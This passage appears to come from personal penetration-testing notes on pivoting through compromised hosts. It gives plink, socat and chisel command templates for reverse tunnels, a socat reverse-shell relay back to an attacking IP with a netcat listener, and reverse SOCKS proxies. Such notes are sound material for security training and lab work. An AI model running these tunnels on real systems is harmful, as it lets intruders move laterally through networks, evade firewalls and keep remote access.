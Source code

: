 in `-L` the local port on the left (8000), in `-R` the local port on the right (80)

#### PLink

```
puttygen KEYFILE -o OUTPUT_KEY.ppk    #only for priv key not need for pub
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

here local\_port refers to the rhost port since the command is executed from there but in the ssh one i mean our port whenever local is mentioned

#### Socat

Port forwarding machine

```
#Reverse shell
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &    #443 is our port, set a nc too

#Forwarding
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &   #3306 is of the .10 rhost and 33060 is ours

#Quiet forwarding
./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &  
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &   #on rhost
localhost:8000   #view whatever served on rhost target port

```

& backgrounds the listener\
The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it.

#### Chisel

No need for ssh access

You need a copy of chisel both in local and remote host\
Change proxychains config file to SOCKS5 instead of 4 if using this

<pre><code>#Reverse SOCKS proxy (Useful)
<strong>./chisel server -p LISTEN_PORT --reverse &#x26;                          #lhost
</strong>./chisel client ATTACKING_IP:LISTEN_PORT R:socks &#x26;

#Forward proxy (Not so useful, outbound firewall less strict so)
./chisel server -p LISTEN_PORT --socks5                             #rhost
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

#Remote port forward (connect back from a compromised target to create the forward)
./chisel server -p LISTEN_PORT --reverse &#x26;                          #localhost
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &#x26;

#Local port forward (connect from our own attacking machine to a chisel server listening on a compromised target)
./chisel server -p LISTEN_PORT                                      #rhost
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
</code></pre>
